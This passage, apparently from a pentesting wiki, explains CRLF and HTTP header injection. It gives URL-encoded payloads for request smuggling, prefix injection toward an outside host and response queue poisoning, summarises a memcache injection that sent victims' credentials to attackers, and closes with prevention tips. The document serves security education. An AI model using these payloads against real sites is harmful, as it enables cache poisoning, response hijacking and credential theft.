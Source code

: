 You can inject essential headers to ensure the **back-end keeps the connection open** after responding to the initial request:

```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0a HTTP/1.1
```

Afterward, a second request can be specified. This scenario typically involves [HTTP request smuggling](http-request-smuggling/), a technique where extra headers or body elements appended by the server post-injection can lead to various security exploits.

**Exploitation:**

1. **Malicious Prefix Injection**: This method involves poisoning the next user's request or a web cache by specifying a malicious prefix. An example of this is:

`GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/redirplz%20HTTP/1.1%0d%0aHost:%20oastify.com%0d%0a%0d%0aContent-Length:%2050%0d%0a%0d%0a HTTP/1.1`

2. **Crafting a Prefix for Response Queue Poisoning**: This approach involves creating a prefix that, when combined with trailing junk, forms a complete second request. This can trigger response queue poisoning. An example is:

`GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/%20HTTP/1.1%0d%0aFoo:%20bar HTTP/1.1`

### Memcache Injection

Memcache is a **key-value store that uses a clear text protocol**. More info in:

[[../network-services-pentesting/11211-memcache/]]

**For the full information read the**[ **original writeup**](https://www.sonarsource.com/blog/zimbra-mail-stealing-clear-text-credentials-via-memcache-injection/)

If a platform is taking **data from an HTTP request and using it without sanitizing** it to perform **requests** to a **memcache** server, an attacker could abuse this behaviour to **inject new memcache commands**.

For example, in the original discovered vuln, cache keys were used to return the IP and port a user shuold connect to, and attackers were able to **inject memcache comands** that would **poison** the **cache to send the vistims details** (usrnames and passwords included) to the attacker servers:

![https://assets-eu-01.kc-usercontent.com/d0f02280-9dfb-0116-f970-137d713003b6/ba72cd16-2ca0-447b-aa70-5cde302a0b88/body-578d9f9f-1977-4e34-841c-ad870492328f_10.png?w=1322&h=178&auto=format&fit=crop](../images/image (659).png)

Moreover, researchers also discovered that they could desync the memcache responses to send the attackers ip and ports to users whose email the attacker didn't know:

![https://assets-eu-01.kc-usercontent.com/d0f02280-9dfb-0116-f970-137d713003b6/c6c1f3c4-d244-4bd9-93f7-2c88f139acfa/body-3f9ceeb9-3d6b-4867-a23f-e0e50a46a2e9_14.png?w=1322&h=506&auto=format&fit=crop](../images/image (637).png)

### How to Prevent CRLF / HTTP Header Injections in Web Applications

To mitigate the risks of CRLF (Carriage Return and Line Feed) or HTTP Header Injections in web applications, the following strategies are recommended:

1. **Avoid Direct User Input in Response Headers:** The safest approach is to refrain from incorporating user-supplied input directly into response headers.
2. **Encode Special Characters:** If avoiding direct user input is not feasible, ensure to employ a function dedicated to encoding special characters like CR (Carriage Return) and LF (Line Feed). This practice prevents the possibility of CRLF injection.
3. **Update Programming Language:** Regularly update the programming language used in your web applications to the latest version. Opt for a version that inherently disallows the injection of CR and LF characters within functions tasked with setting HTTP headers.
